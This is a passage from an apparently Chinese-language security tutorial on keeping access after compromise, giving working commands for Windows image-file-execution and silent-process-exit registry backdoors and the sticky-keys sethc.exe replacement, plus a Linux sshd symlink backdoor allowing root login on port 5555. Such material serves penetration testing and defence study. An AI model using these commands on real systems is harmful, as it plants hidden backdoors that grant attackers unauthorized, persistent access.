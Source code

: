 当然我们也可以在第一步新键一个注册表文件目录，取名为想要覆盖的可执行程序，后续步骤类似。

[![](https://p3.ssl.qhimg.com/t01148a3195dd0338b4.png)](https://p3.ssl.qhimg.com/t01148a3195dd0338b4.png)<br>
但是这样明目张胆的偷梁换柱有点张扬，根据安全客那篇文章，修改另外两个注册表键值可以实现原程序退出后静默运行后门程序。以执行notepad为例，退出后静默运行calc.exe

```
reg add "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionImage File Execution Optionsnotepad.exe" /v GlobalFlag /t REG_DWORD /d 512

reg add "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionSilentProcessExitnotepad.exe" /v ReportingMode /t REG_DWORD /d 1

reg add "HKEY_LOCAL_MACHINESOFTWAREMicrosoftWindows NTCurrentVersionSilentProcessExitnotepad.exe" /v MonitorProcess /t REG_SZ /d  "C:Windowssystem32calc.exe"
```

### <a class="reference-link" name="shift%E5%90%8E%E9%97%A8"></a>shift后门

这个后门的方式比较老，在windows登陆的时候按五次shift打开cmd进行操作。前提条件是:在将C盘windows目录下面的system32文件夹可写的情况下，将里面的sethc.exe应用程序进行转移，并生成sethc.exe.bak文件。并将cmd.exe拷贝覆盖sethc.exe。

但是在windows xp过后，sethc组件属于完全受信用的用户TrustInstall，我们无法修改名字，这时候即使administrators都只有名义上的只读和可执行权，我们可以手动修改其所属为administrators，步骤如下：

```
右键属性/安全/高级；
所有者/编辑/添加当前用户/应用/确定；
关闭窗口；
右键属性/安全/编辑；
选择Administrators（或者你的当前组）/勾选完全控制/确定；
```

[![](https://p0.ssl.qhimg.com/t01e54cf4479c3710de.png)](https://p0.ssl.qhimg.com/t01e54cf4479c3710de.png)

[![](https://p1.ssl.qhimg.com/t0141ef780fa8554fc3.png)](https://p1.ssl.qhimg.com/t0141ef780fa8554fc3.png)



## 0x04 linux权限维持

可以看到windows的权限维持很多时候是基于注册表值，但是linux里面没有注册表项，但是有很多的配置文件选项，可以达到相似的功能。下面介绍一些比较实用的后门手段。

### <a class="reference-link" name="sshd%E8%BD%AF%E8%BF%9E%E6%8E%A5"></a>sshd软连接

> 原理细节： [http://www.91ri.org/16803.html](http://www.91ri.org/16803.html)

```
victim
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=5555;

attack
ssh root@x.x.x.x -p 5555
```
